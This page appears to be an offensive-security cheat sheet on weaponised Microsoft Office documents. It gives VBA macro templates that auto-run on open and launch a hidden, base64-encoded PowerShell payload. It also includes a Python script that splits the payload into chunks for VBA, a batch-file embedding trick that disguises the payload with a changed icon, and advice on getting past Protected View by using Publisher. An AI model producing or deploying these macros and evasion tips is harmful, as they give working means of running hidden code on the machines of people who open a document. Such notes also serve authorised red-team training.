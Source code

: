 # Macros

### Microsoft Word Macro Skeleton

View -> Macros -> Macros in Document -> Name -> Create

```visual-basic
Sub AutoOpen()
    RevMacro
End Sub

Sub Document_Open()
    RevMacro
End Sub

Sub RevMacro()
    Dim Str As String
    <payload here>
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Functions Purposes:

* AutoOpen() = Open when a new document is opened
* Document\_Open() = Executed when Reopened
* CreateObject("Wscript.Shell").Run Str = Runs the payload
* Save As: Word 97-2003 Document

Save the document as `.docm` (Word Macro-Enabled Document) or older `.doc` (Word 97-2003 Document) and **NOT** as `.docx` format

💡 We can use the base64-encoded PowerShell payload of `MSFvenom` when generating a malicious HTA application.

{% hint style="info" %}
VBA has a 255-character limit for literal strings to solve this problem we can split the PowerShell command into multiple lines via a Python script:
{% endhint %}

```python
str = "powershell.exe -nop -w hidden -e <BASE64_PAYLOAD>"
n = 50
print(f'Str = "{str[:50]}"')
for i in range(50, len(str), n):
print(f'Str = Str + "{str[i:i+n]}"')
```

```visual-basic
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	
	Str = "powershell.exe -nop -w hidden -e <SPLITTED_BASE64_PAYLOAD>"
	Str = Str + "<SPLITTED_BASE64_PAYLOAD>"
	...
	CreateObject("Wscript.Shell").Run Str
End Sub
```

> **Note**: the macro security warning only re-appears if the name of the document is changed.

* Embedding/Linking Object using Batch file:
* Word or Excel:
* _Insert > Object > Create from File_
* Import a Batch File

```batch
START powershell.exe -nop -w hidden -e <BASE64_PAYLOAD>
```

💡 **Tip**: _Display as icon > Change Icon_

* [**Protected View**](https://support.microsoft.com/en-us/topic/what-is-protected-view-d6f09ac7-e6b9-4495-8e43-2bbcdbcb6653?ui=en-us\&rs=en-us\&ad=us) Bypass: a sandbox feature that disables all editing and modifications in the document + blocks the execution of macros or embedded objects.

Malicious office docs are effective when served locally but when served from the Internet, i.e, an email download link, **Protected View** is enabled. However, **Microsoft Publisher** does not enable it so use Publisher instead.
